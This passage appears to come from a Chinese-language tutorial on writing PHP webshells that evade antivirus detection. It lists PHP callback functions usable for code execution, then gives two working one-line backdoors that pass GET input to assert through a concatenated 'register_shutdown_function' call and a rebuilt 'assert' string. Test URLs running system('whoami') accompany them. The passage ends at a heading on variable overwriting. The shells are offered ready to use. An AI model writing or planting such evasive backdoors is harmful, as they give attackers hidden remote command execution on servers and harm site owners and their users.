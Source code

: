 ```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk() 
array_walk_recursive()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array(assert,array($_POST[x]));
```

- 所以只能稍微配合上面的内容，奉献下面的免杀马
- 这个那就是定义个函数加个简单的拼接

```php
<?php 
function zeo($c,$d){
	pj()($c,$d);
}
function pj(){
	return "register_shut"."down_function";
}

$b=$_GET['x'];
zeo(assert,$b);
?>
```

```http
http://127.0.0.1:8081/security/bypass/test04.php?x=system(%22whoami%22)
```

## 二维数组

```php
<?php
$b = substr_replace("assexx","rt",4);
$a = array($arrayName = ($arrayName =($arrayName = array('a' => $b($_GET['x'])))));
?>
```

```http
http://127.0.0.1:8081/security/bypass/test05.php?x=system(%22whoami%22)
```

## 变量覆盖
